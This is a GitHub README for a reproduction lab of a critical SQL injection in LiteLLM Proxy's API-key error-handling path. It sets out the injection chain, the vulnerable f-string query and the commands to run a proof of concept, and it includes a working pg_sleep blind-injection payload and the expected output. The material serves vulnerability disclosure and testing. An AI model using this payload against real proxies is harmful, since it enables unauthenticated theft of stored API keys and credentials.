


# LiteLLM Proxy SQL Injection (GHSA-r75f-5x8p-qvmc)

A reproduction environment for the SQL injection vulnerability in LiteLLM Proxy's API key authentication flow.

## Vulnerability Summary

| Item | Detail |
|------|--------|
| Advisory | [GHSA-r75f-5x8p-qvmc](https://github.com/BerriAI/litellm/security/advisories/GHSA-r75f-5x8p-qvmc) |
| Type | SQL Injection (CWE-89) |
| Severity | Critical |
| Affected | litellm >=1.81.16, <1.83.7 |
| Fixed | litellm >=1.83.7 (commit `4dc416ee74`) |

## Attack Path

The injection occurs in the **error-handling callback path**, not the main authentication flow. When a non-`sk-` prefixed token is sent, the assertion fails and the raw (unhashed) token flows through the failure callback chain into a SQL query that uses f-string interpolation:

```
HTTP request: Authorization: Bearer <payload>
  → assert api_key.startswith("sk-") fails
  → _handle_authentication_error(api_key=RAW_TOKEN)
  → post_call_failure_hook
  → _enrich_failure_metadata_with_key_info
  → get_key_object(hashed_token=RAW_TOKEN)
  → get_data(token=RAW_TOKEN, table_name="combined_view")
  → SQL: WHERE v.token = '{RAW_TOKEN}'  ← INJECTION
```

The main `sk-` authentication path is **not exploitable** because tokens are SHA256-hashed before reaching the query, producing only `[0-9a-f]` characters.

## Reproduction

### 1. Start the vulnerable environment

```bash
docker compose up -d
```

This starts LiteLLM Proxy (v1.83.3-stable) with a PostgreSQL backend.

### 2. Run the PoC

```bash
pip install requests
python poc_litellm_sqli.py --target http://localhost:4000 --delay 5
```

### Expected output

```
╔═══════════════════════════════════════════════════════════╗
║   LiteLLM Proxy SQL Injection PoC                        ║
║   GHSA-r75f-5x8p-qvmc | CVE: Pending                    ║
║   Affected: litellm >=1.81.16, <1.83.7                  ║
║   Attack: time-based blind via error-handling callback    ║
╚═══════════════════════════════════════════════════════════╝

[*] Checking target: http://localhost:4000
[+] Target alive (status 200)

[*] Measuring baseline (3 requests)...
  Baseline avg: 0.022s

[*] Control: non-sk- token without pg_sleep...
  Control: 0.024s

=======================================================
  Time-based Blind SQL Injection (pg_sleep=5s)
=======================================================
  Payload: ' OR (SELECT 1 FROM (SELECT pg_sleep(5)) t) IS NOT NULL--
  Response: 5.018s

[+] VULNERABLE! pg_sleep(5) confirmed
```





## Technical Details

### Payload construction

PostgreSQL's `pg_sleep()` returns `void`, which cannot appear in a boolean context (`OR`). The payload wraps it in a subquery to avoid the type error:

```sql
' OR (SELECT 1 FROM (SELECT pg_sleep(N)) t) IS NOT NULL--
```

This is injected into the `combined_view` query in `litellm/proxy/utils.py`:

```python
# Vulnerable code (<=v1.83.3)
sql_query = f"""
    SELECT v.*, t.spend AS team_spend, ...
    FROM "LiteLLM_VerificationToken" AS v
    LEFT JOIN ...
    WHERE v.token = '{token}'   ← f-string interpolation of user input
"""
```

### Impact

- **Unauthenticated** — no valid API key required
- **Database read access** — extract any data via blind injection (API keys, credentials, config)
- **All LLM provider keys** managed by the proxy are at risk

## References

- [GitHub Security Advisory](https://github.com/BerriAI/litellm/security/advisories/GHSA-r75f-5x8p-qvmc)
- [Fix commit 4dc416ee74](https://github.com/BerriAI/litellm/commit/4dc416ee74)
- [Sysdig TRT threat intelligence report](https://sysdig.com/blog/litellm-critical-sql-injection-vulnerability-exploited-in-the-wild/) — observed in-the-wild exploitation within 36 hours of disclosure
